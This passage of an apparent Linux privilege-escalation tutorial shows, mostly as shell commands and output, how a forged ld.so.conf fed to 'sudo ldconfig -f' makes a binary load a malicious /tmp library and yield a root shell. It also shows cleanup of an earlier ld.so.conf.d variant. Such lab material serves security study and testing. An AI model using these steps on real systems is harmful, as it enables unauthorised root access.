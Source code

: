 We can see that we have escalated privileges. However, since we no longer need the file, we can remove it:

```bash
user@pwn:~/so-files/evil$ sudo rm /etc/ld.so.conf.d/shouldnt_be_here.conf
```

We could reload the `ld` configuration with `ldconfig`:

```bash
user@pwn:~/so-files/evil$ ldd /usr/bin/myexec
	linux-vdso.so.1 (0x00007ffd4cd08000)
	libcustom.so => /tmp/libcustom.so (0x00007f150e0a7000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f150deb5000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f150e0c2000)
user@pwn:~/so-files/evil$ sudo ldconfig
user@pwn:~/so-files/evil$ ldd /usr/bin/myexec
	linux-vdso.so.1 (0x00007ffeaefb4000)
	libcustom.so => /lib/libcustom.so (0x00007f35cf80a000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f35cf618000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f35cf825000)
user@pwn:~/so-files/evil$ 
```

# Privilege Escalation via Fake ld.so.conf

We create our fake **ld.so.conf**:

```bash
user@pwn:~/so-files/evil$ cd /tmp
user@pwn:/tmp$ echo "include /tmp/conf/*" > /tmp/fake.ld.so.conf
```

Then, we add a configuration file to the location indicated by **fake.ld.so.conf**:

```bash
user@pwn:/tmp$ mkdir conf
user@pwn:/tmp$ echo "/tmp" > conf/evil.conf
```

Finally, we execute `ldconfig` with the -f option:

```bash
user@pwn:/tmp$ sudo ldconfig -f fake.ld.so.conf
```

Now verify that the shared object that is being loaded is the malicious one and execute the binary (`myexec`):

```bash
user@pwn:/tmp$ ldd /usr/bin/myexec
	linux-vdso.so.1 (0x00007ffd872a4000)
	libcustom.so => /tmp/libcustom.so (0x00007f9a11ce3000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f9a11af1000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f9a11cfe000)

user@pwn:/tmp$ /usr/bin/myexec
Message from myexec.c!
I'm the bad library!
I'm trying to spawn a root shell...
Check your shell!
root@pwn:/tmp# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare),1000 (user)
root@pwn:/tmp# whoami
root
root@pwn:/tmp# 
```
